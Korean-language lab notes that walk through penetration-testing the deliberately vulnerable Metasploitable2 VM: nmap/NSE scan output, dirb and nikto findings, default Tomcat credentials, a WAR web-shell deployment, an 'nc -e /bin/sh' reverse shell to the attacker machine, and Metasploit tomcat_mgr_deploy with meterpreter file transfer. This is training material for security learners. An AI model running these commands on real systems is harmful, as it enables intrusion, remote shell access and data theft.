

## Metasploitable V2
  * MSF로 진단하기 위해 만들어진 환경
    * 의도적으로 취약하게 만든 가상머신임

### Metasploitable Framework
* 취약점 통합 도구
  * 진단하기 위해 만들어진 환경
  * Rapid 7 회사가 운영/개발
  * 또는 공격 도구

## Metasploitable2 포트스캔
* sudo nmap -sV 192.168.75.131 -p- -oX result.xml
  * -sV: 버전 표시
  * -p-: 모든 포트 표시
  * -oX: 명령어를 이용하여 result.xml에 결과 저장
    * 후에 다른 포맷으로 변환하기 좋음
  * 여러 IP에 NMAP을 돌리려면
    * 192.168.75.0/24 -> 1부터 25까지 IP를 NMAP 돌림
* 포트스캔 결과를 searchsploit에 돌리기
  * sudo searchsploit --nmap result.xml

### 포트스캔 결과
```
    Nmap scan report for 192.168.75.131
    Host is up (0.0023s latency).
    Not shown: 65505 closed tcp ports (reset)
    PORT      STATE SERVICE     VERSION
    21/tcp    open  ftp         vsftpd 2.3.4
    22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    23/tcp    open  telnet      Linux telnetd
    25/tcp    open  smtp        Postfix smtpd
    53/tcp    open  domain      ISC BIND 9.4.2
    80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
    111/tcp   open  rpcbind     2 (RPC #100000)
    139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    512/tcp   open  exec        netkit-rsh rexecd
    513/tcp   open  login       OpenBSD or Solaris rlogind
    514/tcp   open  tcpwrapped
    1099/tcp  open  java-rmi    GNU Classpath grmiregistry
    1524/tcp  open  bindshell   Metasploitable root shell
    2049/tcp  open  nfs         2-4 (RPC #100003)
    2121/tcp  open  ftp         ProFTPD 1.3.1
    3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
    3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
    5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
    5900/tcp  open  vnc         VNC (protocol 3.3)
    6000/tcp  open  X11         (access denied)
    6667/tcp  open  irc         UnrealIRCd
    6697/tcp  open  irc         UnrealIRCd
    8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
    8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
    8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
    34063/tcp open  status      1 (RPC #100024)
    38776/tcp open  java-rmi    GNU Classpath grmiregistry
    49898/tcp open  mountd      1-3 (RPC #100005)
    55709/tcp open  nlockmgr    1-4 (RPC #100021)
    MAC Address: 00:0C:29:AB:47:F9 (VMware)
    Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
* 저번 시간에 본 ftp 취약점: vsftpd 2.3.4
* 아파치 톰캣 관리자 페이지 취약점: Apache Tomcat/Coyote JSP engine 1.1

### result.xml 보기좋게 하기
* 고객사에게 전달할때는 엑셀 파일로 전달하는게 좋음
* 윈도우에서 엑셀로 result.xml 여는 방법이 있음
  * 필요없는 컬럼들이 너무 많음..
* html 파일로 변환하는 방법이 있음
  * sudo xsltproc result.xml -o result.html
    * xml을 html로 변환
    * 필요한 컬럼들만 있어서 엑셀로 복사하기 좋음

## Nmap NSE (Nmap Scripting Engine)
* 취약점을 분석하는 스크립트를 제공하는 사이트
  * https://nmap.org/nsedoc
* 사이트를 참고해서 nmap 취약점 분석을 할 수 있음
  * 정확히는 nmap의 기능을 확장하는 것임
* Lua 언어를 사용함
  * Lua는 파이썬 같은 스크립트 언어, 게임에서 많이 쓰임
  * LUA 스크립트로 해당 취약점에 대한 진단을 하는 것
* 가장 많이 사용하게 될 것임
  * 취약점이 나오면 다음날 쯤에 취약점 LUA 스크립트가 만들어짐

## Nmap NSE 구조


### Nmap NSE 돌리기
* sudo nmap -sV -sC 192.168.75.131 
  * -sC
    * --Script=Default
  * vuln 카테고리로 설정하고 싶으면
    * --script=vuln
  * 특정 스크립트로 nmap을 돌리고 싶으면
    * --script=whois-domain
* nmap 스크립트 저장 위치
  * cd /usr/share/nmap/scripts 
* 스크립트 관련 옵션
  * --script=vuln
    * 카테고리에 해당하는 스크립트 모두 실행
  * --script=whois-domian
    * 1 개의 스크립트를 실행
  
### NSE 돌린 결과
```
Nmap scan report for 192.168.75.131
Host is up (0.0039s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE        VERSION
21/tcp   open  ftp            vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.75.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh            OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp   open  telnet         Linux telnetd
25/tcp   open  smtp           Postfix smtpd
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
|_ssl-date: 2024-10-08T11:20:51+00:00; -22h28m39s from scanner time.
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
53/tcp   open  domain         ISC BIND 9.4.2
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp   open  http           Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-title: Metasploitable2 - Linux
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
111/tcp  open  rpcbind        2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      49898/tcp   mountd
|   100005  1,2,3      58748/udp   mountd
|   100021  1,3,4      34988/udp   nlockmgr
|   100021  1,3,4      55709/tcp   nlockmgr
|   100024  1          34063/tcp   status
|_  100024  1          54450/udp   status
139/tcp  open  netbios-ssn    Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  Eetbios-�����U Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
512/tcp  open  exec           netkit-rsh rexecd
513/tcp  open  login          OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi       GNU Classpath grmiregistry
1524/tcp open  bindshell      Metasploitable root shell
2049/tcp open  nfs            2-4 (RPC #100003)
2121/tcp open  ftp            ProFTPD 1.3.1
3306/tcp open  mysql          MySQL 5.0.51a-3ubuntu5
| mysql-info: 
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 689
|   Capabilities flags: 43564
|   Some Capabilities: Support41Auth, SupportsCompression, Speaks41ProtocolNew, SupportsTransactions, SwitchToSSLAfterHandshake, LongColumnFlag, ConnectWithDatabase
|   Status: Autocommit
|_  Salt: o4T*ov#G|[4.*(*8z#:;
5432/tcp open  postgresql     PostgreSQL DB 8.3.0 - 8.3.7
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
|_ssl-date: 2024-10-08T11:20:51+00:00; -22h28m39s from scanner time.
5900/tcp open  vnc            VNC (protocol 3.3)
| vnc-info: 
|   Protocol version: 3.3
|   Security types: 
|_    VNC Authentication (2)
6000/tcp open  X11            (access denied)
6667/tcp open  irc            UnrealIRCd
| irc-info: 
|   users: 1
|   servers: 1
|   lusers: 1
|   lservers: 0
|   server: irc.Metasploitable.LAN
|   version: Unreal3.2.8.1. irc.Metasploitable.LAN 
|   uptime: 0 days, 11:07:00
|   source ident: nmap
|   source host: D76C5AC4.93D7CABE.FFFA6D49.IP
|_  error: Closing Link: rsxfrytsk[192.168.75.128] (Quit: rsxfrytsk)
8009/tcp open  ajp13          Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp open  http           Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/5.5
MAC Address: 00:0C:29:AB:47:F9 (VMware)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2024-10-08T07:20:42-04:00
|_clock-skew: mean: -21h28m39s, deviation: 2h00m00s, median: -22h28m39s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.19 seconds
```

#### 취약점 진단: _ftp-anon: Anonymous FTP login allowed
* 취약점 확인해보기
  * ftp 192.168.75.131
  * Name: anonymous 입력
  * 로그인이 됨.. 
* 보고서에 적을 내용
  * anonymous에 대한 접근 제어를 빼야 함
  * 다른 디렉토리에 대한 접근 허용하지 말아야 함

#### 취약점 진단: 111/tcp  open  rpcbind 
  * remote process call
    * 원격으로 프로세스 정보를 call 했을때 111 포트에 접근제어가 안되어 있으면 프로세스 정보 노출
  * 노출된 프로세스의 정보를 보면
    * nfs
    * 원격 파일 서버가 열려 있다는 뜻
    * 안에서 네트워크 파일이 공유되어 있다는 힌트를 알 수 있음
  * OSINT로 해당 111포트에 대해서 노출된 프로세스를 찾을수도 있음
* 버전 정보 노출
  * 80 포트 -> apache 버전 정보 노출
  * 3306 포트 -> mysql 버전 정보 노출
  * 그렇게 중요한 취약점은 아님

## vuln 카테고리 NSE를 돌린 결과
* sudo nmap -sV --script=vuln 192.168.81.128
* 이전 default로 nmap 하는 것과 달리 안보이던게 보임

### backdoor 취약점
```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|       https://www.securityfocus.com/bid/48539
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
```
* exploit result
  * 공격자는 root 권한으로 공격 가능
    * 심각한 취약점
* References
  * 보다 정확한 정보를 references에서 확인
* CVE-2011-2523
  * 취약점의 식별자

### 웹쪽 취약점
* 80 포트
  * XSS, SQL Injection 등이 나옴
* 8180 포트 (Apache Tomcat)
  * admin 관련 취약점이 나옴

## 한개의 포트만 NSE 돌리고 싶으면
* -p21 옵션
  * sudo nmap -sV --script=vuln 192.168.75.1/24 -p21
  * 21번 포트만을 대상으로 nmap을 할 수 있음
    * ftp 취약점
  * beebox -> 버전 취약점들이 나오 
  * meta -> 관련 취약점도 나옴

### 모의해킹 과정 (포트 점검)
* 이전 과정
  * 도메인 - IP 매칭 대상 선정
* 내부 점검
  * nmap으로 직접 점검
* 외부 점검
  * OSINT 사용
    * 내부 private IP는 OSINT 사용 불가
* 버전 정보, 일부 취약점 정보 수집
  * NSE 사용

## 웹 취약점 분석
* 버전정보
* 디렉토리 / 파일 구조 정보
* 불필요한 파일 여부 확인
* 설정 미흡으로 인한 디렉토리 리스팅
  * index of 취약점
* 관리자 페이지 접근 제어 미흡
* (심화) 각 취약점별 패턴 대입 -> 취약점 여부 확인!

### Dirb (디렉토리 공격)
* dirb
  * directory buster
    * 디렉토리 무작위 대입 공격
    * 특정 사이트의 모든 디렉토리를 크롤링하면서 요청을 함
      * 응답값으로 특정 파일들이 있나 확인하는 것 
      * a ~ z 또는 admin, password 등 문자열을 대입해서 공격
        * 문자열들은 WORDLIST 파일에 있음
  * http 상태 코드로 성공 여부 판단
    * 200 OK가 나오면 wordlist에 있는 디렉토리 혹은 파일이 존재하는 것
      * 201 -> 요청한 것 작성 완료 (created)

### WORDLIST
* dirb 문자열들이 저장되어 있는 파일
* locate wordlist
  * 여러 wordlist를 찾을 수 있고 이것들을 사용 가능
* 사전 파일 공격 이라고 함
  * 무작위 대입 공격은 무작위로 순서대로 대입공격하는 것
    * a~z, aaaaaa~zzzzzz
  
### 대입 공격 종류
* 사전 파일 대입 공격
  * 워드리스트 존재
* 무작위 대입 공격
  * 문자열 a~z, aaaaaa~zzzzzz 순서대로 다 대입
  * 언젠가는 나오겠지.. 하지만 시간이 오래 걸림
* 추측 공격
  * 센스로 맞추는 것
    * 아 요 페이지 뭔가 패스워드가 있을 거 같다

### http 상태 코드
* 301, 302
  * 강제 이동
  * 예: 로그인 페이지로 강제 이동
* 200, 201
  * 200 ok
  * 201 -> 요청한 것 작성완료
* 404
  * NOT Found
  * 페이지 없음
* 403
  * 해당 디렉토리가 있지만 거부당한 것
* 500번대
  * 서버 오류
  * 502 Bad Gateway

### dirb 결과

* 상태코드 403
  * Forbidden 페이지로 분명 뒤에 뭐가 있는 것
  * http://192.168.75.131/cgi-bin/ (CODE:403|SIZE:295)
* /phpinfo 페이지 노출
  * http://192.168.75.131/phpinfo (CODE:200|SIZE:48092)   
    * 불필요한 시스템 파일 경로들이 유출
* /phpmyadmin
  * php 서버의 admin 페이지
  * phpmyadmin의 하위 디렉토리가 200 OK로 표시됨
    * 로그인 하기 전까지는 접근이 되지 말아야 함
    * 접근제어 미흡!
      * 접근제어 요청을 하거나 삭제 요청을 하자
* 302번대
  * 리다이렉션 페이지임.. 그냥 그렇다구..
  
## nikto
* 위의 dirb 디렉토리 검사와 더불어 해석까지 해주는 도구
  * nmap nse는 이보단 좀 미흡함
* pearl 기반의 취약점 분석 도구

### nikto 검사 결과
* sudo nikto -h http://192.168.75.131/
* /phpinfo.php: Output from the phpinfo() function was found.
  * 대충 중요한 정보들이 있다 라는 뜻
* /doc/: Directory indexing found.
  * index of 취약점이 있따
* /phpMyAdmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
  * dirb와 마찬가지로 phpMyAdmin의 하위 페이지의 접근제어가 안되어 있다는 것
* /test/: Directory indexing found
  * index of 취약점
* /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
  * 오탐임. 저 경로로 들어가면 메인페이지가 나오는데 어쩄든 200 OK를 주니까 감지한 것

## 웹 취약점 도구
* 무료
  * nikto
  * dirb
  * owasp zap (GUI)
  * arachni (유료료 변경)
* 유료
  * Accunetix
  * Appscan
  * Burpsuite pro

### 서버 종류
* 정적 서버 (WEB)
  * Apache
* 동적 서버 (WAS)
  * Tomcat
    * jsp, java 처리
* DB 서버
  
## WAS 접근 제어 취약점 - Tomcat
* 8180 포트에 취약점이 있음
* 톰캣 관리자 페이지 (http://192.168.75.131:8180/manager/html)
* 로그인 방법
  * nikto http://192.168.75.131:8180
    * 취약점을 찾을 수 있음
    * 아이디 tomcat 비번 tomcat

### 톰캣 웹 어플리케이션 매니저
* Applications
  * 페이지 끄고 킬 수 있음
* Deploy
  * 개발한 JSP 파일을 압축으로 묶어서 War 파일 업로드하는 곳
  * 이곳에 악성코드를 올릴 수 있음
    * war 파일 안에 악성 스크립트를 넣어서 업로드
      * 웹쉘을 넣어서 백도어로 활용

### Web Shell
* 웹을 통해서 쉘을 다룰 수 있는 것
* test.war
  * test.zip -> test.war로 변경
  * 악성 스크립트가 있는 war 파일
    * 웹쉘파일은 shell.jsp
* 불편한 부분이 있음
  * 웹은 Stateless이므로 웹쉘의 연결은 지속적이지 않음
    * cd .. 하고 ls -al 하면 다시 원래 페이지임
  * 리버스 컨넥션 (Reverse Connection)을 사용하면 권한을 가져올 수 있음
    * 시스템에 백도어로 접속을 해서 권한을 가져오기

### 쉘 명령어
* ps -ef
  * 실행된 프로세스 확인
* netstat -nao
  * 네트워크 정보 확인
  * netstat 상태
    * LISTEN
      * 열려 있는 포트들, 누군가 접속하기를 기다리고 있음
    * ESTABLISHED
      * 송신자와 수신지가 연결되어 있다
* uname -na
  * 현재 사용중인 운영체제 정보
* id
  * 사용자 권한 확인
    * APACHE를 실행하고 있는 권한이 누구냐
      * 여기선 tomcat의 권한을 가지고 있음
      * 관리자보다는 제한되어 있음
* cd ..
  * 웹쉘은 끊기므로 cd .. && ls -al를 해줘야 상단으로 갈 수 있음
  * 불편하다.. 시스템에 백도어로 접속을 해서 권한을 가져오자! 그래서 콘솔에서 사용하자!

## 리버스 컨넥션 (Reverse Connection)
* 침투한 서버가 역으로 공격자에게 권한을 주는 것
  * 공격자 (포트 열람)
  * 침투한 서버 (웹쉘)
* 칼리
  * nc -lvp 4444
    * netcat: 소캣통신 도구
    * 4444 포트를 listening 함
* 침투한 서버 (메타에 있는 웹쉘)
  * nc 192.168.75.128 4444 -e /bin/sh
    * -e 옵션 -> 파일 또는 전송한다는 것
    * /bin/sh -> 쉘 권한
    * 즉 쉘 권한을 4444포트로 전송해달라는 것
* 거의 모든 악성코드는 이렇게 reverse connection 방식으로 함

## 메타스플로잇 공격?
* sudo msfdb init
  * 메타스플로잇 프레임워크 초기화
* sudo msfconsole
  * payloads
    * 접점? 
  * encoders
    * 난독화
  * search tomcat
    * 27  auxiliary/scanner/http/tomcat_mgr_login                                          normal     No     Tomcat Application Manager Login Utility
    * use 27
      * show options
        * required -> 채워야 하는 옵션
        * set RHOSTS 192.168.75.131
          * RHOSTS: 아이피를 체크하는 모듈?
        * set RPORT 8180
        * set STOP_ON_SUCCESS true
          * 설정 안하면 안멈춤 (뭐가?)
        * exploit
          * 설정된 문자열로 공격!
    * tomcat_mgr_deploy
      * use 6
      * show options
        * Module options
        * Payload options
      * set HttpPassword tomcat
      * set HttpUsername tomcat
      * set RHOSTS 192.168.75.131
      * set RPORT 8180
      * exploit
        * war 파일 생성
          * L1aO6bYp0JKCmCPZUWTaqGhe6unobC.war
        * meterpreter > 에서 입력할 명령어
          * getuid
          * sysinfo
          * exit
          * shell
  * 악성코드를 심은 PC에 파일을 가져오고 싶으면?
    * nc 사용!
    * 메타프리터에서 제공하는 것을 사용하면 좋음
      * search -f *.txt
      * download /var/www/twiki/readme.txt
      * upload /var/www/twiki/readme.txt

## 인증 처리 미흡 취약점
* A07:2021-Identification and Authentication Failures
  * 이거에 해당하는 취약점 (OWASP)
* mysql -u root -p
* create database gmshop;
* show databases;
* exit
* /var/www/gm/lib/db_info.php
  * 커넥션 정보
  * gmshop?
* solution.sql
  * 쿼리를 백업해둔것
* mysql -uroot -pbug gmshop < solution.sql
  * gmshop 테이블에 solution.sql 넣기

### 배경지식

* 클라이언트 스크립트(HTML, Javascript)
* 서버사이드 스크립트(PHP, JSP/JAVA)
* 데이터베이스 (Mysql, Mssql, Oracle)
* 셋 다 어느정도 이해 해야 함!

## 시나리오
1. 다른 사용자 게시물 수정 및 삭제 여부   
   인증이 잘못된 것
2. 다른 사용자 개인정보 수정 페이지 접근 가능 여부   
   다른 사람의 수강신청 사이트 가는 것
3. 상품 결제 금액 조작 여부 
4. 비밀글 접근
5. 공인인증서 우회를 통한 권한 획득 여부
6. 다른 사용자의 온라인 증명서 발급 여부

## BurpSuite

* 설치
  * https://portswigger.net/burp/communitydownload

### 프록시 서버
* 두가지 종류가 있음
  1. 네트워크 프록시 서버   
    * 캐시 저장 목적
      * 사용자 <--> 네트워크 프록시 서버 <--> 외부
    * 보안 목적
      * 웹 차단 솔루션, 악성코드 패킷 분석
        * 금융권 -> 인터넷으로 영화볼 수 없음
  2. 클라이언트 웹브라우저 ----> 프록시 서버 (Proxy Server) ----> 서버 (웹서비스)
    * 프록시 서버가 중간에 Intercept 가능
      * 패킷을 조작할 수도 있음
        * Request: 요청 패킷
        * Response: 돌아오는 패킷
    
### 클라이언트 프록시
* 브라우저에서 깔 수 있음
  * foxy proxy 플러그인 설정
    * Hostname: 127.0.0.1
    * Port: 8080
    * 웹 프록시 ON
      * Burp Suite 종료 후 OFF 안하면 인터넷 안됨

### GET 메소드, POST 메소드
* GET
  * 데이터 받기
* POST
  * 데이터 전송
* 헤더 정보
  * User-Agent: 브라우저 정보
      * 모바일접속? PC 접속?
  * Content-Length: 내용 길이
  * Accept: 
  * Referer: 페이지 접근하기 전에 어디 페이지에서 왔나?
    * 홍보페이지를 만듦
      * 페이스북에서 왔는지 트위터에서 왔는지
    * 악성코드
      * 관리자페이지에서 왔나, 일반 페이지에서 왔나
  * Cookie
    * 로그인 상태
    * 세션 값 저장
    * 브라우저에 저장된 쿠키값이 서버의 쿠기값과 일치
      * 로그인 상태 유지
    * 쿠키는 일종의 인증 값
      * 쿠키 값을 탈취되면 안 됨 !!
    * 쿠키값은 브라우저에 저장됨
      * PC의 파일에 저장 되어 있다고도 함

## BEEBUG 문제

1. get문제
2. POST문제
3. 태그문제
4. javascript 문제